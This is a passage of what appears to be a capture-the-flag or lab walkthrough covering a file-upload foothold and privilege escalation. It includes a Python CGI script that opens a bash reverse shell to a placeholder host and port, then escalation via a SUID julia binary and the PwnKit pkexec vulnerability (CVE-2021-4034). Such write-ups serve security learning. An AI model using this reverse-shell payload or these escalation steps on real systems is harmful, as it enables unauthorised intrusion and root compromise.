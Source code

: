If we upload a script

![[Untitled 37 2.png|Untitled 37 2.png]]

If we upload this as .py the serves throws error

This (I found later) is because that we have to format the output

Final script

```Python
#!/usr/bin/python3
 
import os 
 
print("Content-type: text/html", end="\r\n\r\n", flush=True)
f = os.system("bash -c 'bash -i &>/dev/tcp/<IP>/<PORT>'")
print(f"{f}")
```

![[Untitled 38 2.png|Untitled 38 2.png]]

![[Untitled 39 2.png|Untitled 39 2.png]]

Now lets enumerate

![[Untitled 40 2.png|Untitled 40 2.png]]

The binary /usr/bin/julia is a binary for Julia Lang

[https://julialang.org/downloads/platform/](https://julialang.org/downloads/platform/)

Now the binary appears in GTFO

> [!info] julia | GTFOBins  
> It can be used to break out from restricted environments by spawning an interactive system shell.  
\> [https://gtfobins.github.io/gtfobins/julia/#suid](https://gtfobins.github.io/gtfobins/julia/#suid)  

![[Untitled 41 2.png|Untitled 41 2.png]]

![[Untitled 42 2.png|Untitled 42 2.png]]

### PwnKit ✅

Using dpkg -l I listed every package installed

![[Untitled 43 2.png|Untitled 43 2.png]]

Basically this is the famous PwnKit vuln, a vulnerable Pkexec binary to elevate privs.

I used this repo

https://github.com/arthepsy/CVE-2021-4034

Once i created the script, I started a python server to download this into the victim’s machine after i establish the reverse shell
